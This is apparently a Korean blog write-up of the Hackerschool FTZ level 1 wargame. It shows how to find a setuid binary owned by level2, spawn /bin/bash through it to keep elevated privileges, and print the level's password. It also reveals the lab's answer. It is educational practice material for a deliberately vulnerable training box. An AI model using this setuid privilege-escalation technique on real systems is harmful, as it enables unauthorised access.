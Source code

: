 ```yaml
---
layout: post
title: "Hackerschool FTZ-level1"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/22/
---
```

```bash
login as: level1 
level1@~~~~'s password: 
[level1@ftz level1]$
```


우선 level1/level1로 접속하자.

우선 현재 디텍토리에 무엇이 있는지 확인해보자. ls명령어로 찾아 보았다. 


```bash
[level1@ftz level1]$ ls 
hint  public_html  tmp
```


누가 보아도 hint파일이 수상해 보였다. cat명령어는 문자 파일을 읽을 수 있으므로 이를 이용해 hint를 읽었다.


```bash
[level1@ftz level1]$ cat hint 


level2 권한에 setuid가 걸린 파일을 찾는다. 


[level1@ftz level1]$
```




권한을 검색하기 위해 find 명령어를 이용했다. (-user : 권한명 검색) 그러나 permission denied(허가 거부) 파일들이 엄청나게 나와 찾기에 불편했다.


```bash
[level1@ftz level1]$ find / -user level2 
find: /lost+found: Permission denied 
find: /boot/lost+found: Permission denied 
find: /proc/1/fd: Permission denied 
find: /proc/2/fd: Permission denied 
find: /proc/3/fd: Permission denied 
find: /proc/4/fd: Permission denied 
find: /proc/9/fd: Permission denied 
find: /proc/5/fd: Permission denied 
find: /proc/6/fd: Permission denied 
find: /proc/7/fd: Permission denied 
find: /proc/8/fd: Permission denied 
find: /proc/10/fd: Permission denied 
find: /proc/11/fd: Permission denied 
find: /proc/19/fd: Permission denied 
find: /proc/76/fd: Permission denied 
find: /proc/1168/fd: Permission denied 
....
```


find 명령어 바로 뒤에 2> /dev/null을 붙여주면 permission denied 파일을 보지 않고 찾아낼 수 있다.

저 bin폴더 안의 /ExecuteMe프로그램이 우리가 찾던 프로그램인 듯 하다.

```bash
[level1@ftz level1]$ cd /bin 
[level1@ftz bin]$ ./ExecuteMe





                레벨2의 권한으로 당신이 원하는 명령어를 
                한가지 실행시켜 드리겠습니다. 
                (단, my-pass 와 chmod는 제외) 

                어떤 명령을 실행시키겠습니까? 


                [level2@ftz level2]$
```


level2의 권한을 임시적으로 얻어내는 프로그램이었다. level2의 권한을 유지시키기 위해서는 /bin/bash명령어를 사용하자.

```bash

                레벨2의 권한으로 당신이 원하는 명령어를 
                한가지 실행시켜 드리겠습니다. 
                (단, my-pass 와 chmod는 제외) 

                어떤 명령을 실행시키겠습니까? 


                [level2@ftz level2]$ /bin/bash 


[level2@ftz level2]$
```


level2가 유지되는 것을 볼 수 있다. 이제 비밀번호를 출력해 주면 level2의 답을 얻을 수 있다.


```bash
[level2@ftz level2]$ my-pass
```


비밀번호를 얻어내는 명령어, my-pass를 사용하자.


```bash
Level2 Password is "hacker or cracker". 

[level2@ftz level2]$
```


level 2's password: "hacker or cracker"
